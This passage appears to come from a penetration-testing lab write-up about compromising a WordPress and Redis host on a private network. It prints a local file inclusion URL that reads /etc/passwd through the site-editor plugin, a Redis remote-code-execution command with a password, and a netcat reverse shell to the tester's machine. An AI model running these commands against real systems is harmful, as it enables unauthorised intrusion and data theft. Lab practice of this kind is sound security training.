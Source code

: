 - Upload directory has listing enabled: `http://192.168.219.166/wp-content/uploads/`

Themes:

`twentytwentyone 1.3`

No public exploits found.

Plugins:

`site-editor 1.1.1`

I have found the following exploit for this version of plugin:
https://www.exploit-db.com/exploits/44340

```bash
http://192.168.219.166/wp-content/plugins/site-editor/editor/extensions/pagebuilder/includes/ajax_shortcode_pattern.php?ajax_path=/etc/passwd
```

![image.png](image%207.png)

## Exploitation

Running the exploit we can gain access as redis user:

```bash
python3 redis-rce.py -r 192.168.219.166 -L 192.168.45.227 -P 80 -f ../module.so -a Ready4Redis?
```

![image.png](image%208.png)

Let’s get a reverse shell now.

![image.png](image%209.png)

```bash
nc -e /bin/sh 192.168.45.227 80
```

![image.png](image%2010.png)

Now we have a shell.

Let’s make it interactive using python:

```bash
python3 -c 'import pty; pty.spawn("/bin/bash")'
```

## Lateral Movement

I see just `.rdb` file in my home directory as redis user I am gonna transfer it to my machine and try to parse it as json.

![image.png](image%2011.png)

I downloaded this utility to read `dump.rdb`:
